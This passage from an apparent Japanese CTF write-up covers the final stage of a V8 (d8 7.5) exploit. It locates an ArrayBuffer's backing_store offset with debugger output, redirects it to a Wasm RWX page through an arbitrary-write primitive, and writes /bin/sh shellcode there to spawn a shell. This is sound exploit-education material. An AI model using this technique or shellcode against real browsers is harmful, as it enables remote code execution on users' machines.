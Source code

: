 シェルを取るために、Wasmのインスタンスを作ることによってRWX領域を確保し、そこにシェルコードを流すという方法を用いるが、このようにして作ったAAWはポインタが圧縮されていないにも関わらず、v8 heapの外側に対して用いるとSegmentation Faultで落ちる。

RWX領域はv8 heapの外側にあるのでこのままではシェルコードを書き込むことが出来ないがこれの回避策もよく知られており、`ArrayBuffer`のオブジェクトはv8 heap内に存在する一方でバッファのバイト列を指す先(backing_store)はv8 heapの外側にあり普通のポインタとして扱えることから、ここをRWX領域に書き換えて読み書きを行う。

このためにはbacking_storeがメモリ構造において`ArrayBuffer`オブジェクトのどのオフセットにあるかを調べる必要がある。次のようなコードで`ArrayBuffer`である`buf`を定義し、そのアドレスを調べてみる。

```txt
$ ./d8 --allow-natives-syntax
V8 version 7.5.0 (candidate)
d8> let buf = new ArrayBuffer(0x400)
undefined
d8> let dv = new DataView(buf)
undefined
d8> dv.setBigUint64(0, 0xdeadbeefcafebaben, true)
undefined
d8> %DebugPrint(buf)
0x361cf8a4dd51 <ArrayBuffer map = 0x388dcf2c21b9>
[object ArrayBuffer]
d8>
```

`buf`は0x361cf8a4dd50にあるようである。バッファが指す先には0xdeadbeefcafebabeを書き込んだのでこの値を含むメモリを探すと、v8 heapの外側であれば、0x560b41de0b70に存在することがわかる(下図)。したがって、`buf`付近のアドレスでこれを含んでいる場所を探すと、`buf`のアドレスから0x20足した場所にあることがわかるのでここをv8 heap内のAAWでRWX領域へのアドレスへと書き換える。

```txt
pwndbg> search -8 0xdeadbeefcafebabe
Searching for value: b'\xbe\xba\xfe\xca\xef\xbe\xad\xde'
[anon_312fec8c0] 0x312fec8e1880 0xdeadbeefcafebabe
[heap]          0x560b41de0b70 0xdeadbeefcafebabe
warning: Unable to access 16000 bytes of target memory at 0x7f11844afd07, halting search.
warning: Unable to access 16007 bytes of target memory at 0x7f11846c9000, halting search.
warning: Unable to access 16007 bytes of target memory at 0x7f1184a67000, halting search.
warning: Unable to access 16007 bytes of target memory at 0x7f1184c6f000, halting search.
warning: Unable to access 16000 bytes of target memory at 0x7f1184e91d07, halting search.
pwndbg> x/16gx 0x361cf8a4dd51-1
0x361cf8a4dd50: 0x0000388dcf2c21b9      0x0000297065e00c71
0x361cf8a4dd60: 0x0000297065e00c71      0x0000000000000400
0x361cf8a4dd70: 0x0000560b41de0b70      0x0000000000000002
0x361cf8a4dd80: 0x0000000000000000      0x0000000000000000
0x361cf8a4dd90: 0x0000297065e00941      0x00000adcea57b396
0x361cf8a4dda0: 0x6974636e7566280a      0x220a7b2029286e6f
0x361cf8a4ddb0: 0x6972747320657375      0x2f2f0a0a3b227463
0x361cf8a4ddc0: 0x2065726f6d204120      0x6173726576696e75
pwndbg>
```

こうして、`buf`は無事にRWX領域を指すようになったので`DataView`や`TypedArray`を用いてシェルコードを書き込み、Wasmのコードを実行してシェルを得る。

```javascript
let aaw_buf = new ArrayBuffer(0x400);
let dv = new DataView(aaw_buf);
let backing_store_addr = addrof(aaw_buf) + 0x20n;
aaw(backing_store_addr, rwx_addr)

let shellcode = [72, 49, 210, 82, 72, 184, 47, 98, 105, 110, 47, 47, 115, 104, 80, 72, 137, 231, 82, 87, 72, 137, 230, 72, 141, 66, 59, 15, 5]

for (let i = 0; i < shellcode.length; i++) {
    dv.setUint8(i, shellcode[i]);
}

// Win!!
f();
```

[^1]: gdbで`p/f 0x11c27c950589`を実行した
[^2]: 実際には浮動小数点数に変換して代入する